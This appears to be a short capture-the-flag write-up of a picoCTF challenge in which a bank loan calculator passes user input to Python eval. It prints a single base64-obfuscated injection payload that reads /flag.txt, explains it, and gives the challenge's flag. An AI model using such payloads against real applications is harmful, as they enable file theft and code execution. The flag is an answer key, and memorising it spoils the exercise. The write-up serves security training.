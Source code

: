 # 3v@l

## Description

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Additional details will be available after launching your challenge instance.


```
open(__import__('base64').b64decode('L2ZsYWcudHh0').decode()).read()
```
### Explanation:

1. `__import__('base64')`: Dynamically imports the `base64` module.
    
2. `'L2ZsYWcudHh0'`: This is a **base64-encoded string**.
    
3. `.b64decode('L2ZsYWcudHh0')`: Decodes the base64 string, resulting in '/flag.txt'.


### FLAG - picoCTF{D0nt_Use_Unsecure_f@nctions3ce5e79c}
